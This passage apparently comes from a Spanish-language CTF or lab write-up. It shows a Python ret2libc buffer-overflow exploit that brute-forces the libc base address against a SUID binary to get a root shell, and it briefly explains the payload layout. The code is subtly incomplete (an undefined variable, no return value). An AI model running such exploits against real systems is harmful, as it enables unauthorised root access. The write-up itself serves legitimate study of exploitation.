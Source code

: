 ```python

def exploit():
    base_libc_address = 0xb75e7000

    system_address_offset = 0x00040310
    exit_address_offset = 0x00033260
    bin_sh_address_offset = 0x00162bac

    system_address = pack("<I", base_libc_address + system_address_offset)
    exit_address = pack("<I", base_libc_address + exit_address_offset)
    bin_sh = pack("<I", base_libc_address + bin_sh_address_offset)

    offset = 112
    before_eip = b"A"*offset
    eip = system_address + exit_address + bin_sh

    payload = before_eip + eip + after_eip

if __name__ == '__main__':
    payload = exploit()

    while True:
        response = call(["/usr/local/bin/ovrflw", payload])

        if response == 0:
            print("\n\n[!] Saliendo...\n\n")
            sys.exit(1)

```

En este script podemos ver que el valor que queremos dar al EIP es el **ret2libc** (system address + exit address + /bin/sh address).

Si lanzamos el script `python3 exploit.py`, va a tardar un poco. Tardara finalmente el tiempo que la direccion de la libreria libc sea la misma 
que la que hemos puesto en el script.

Ya vemos que nos entabla un /bin/sh y `whoami` -> root.

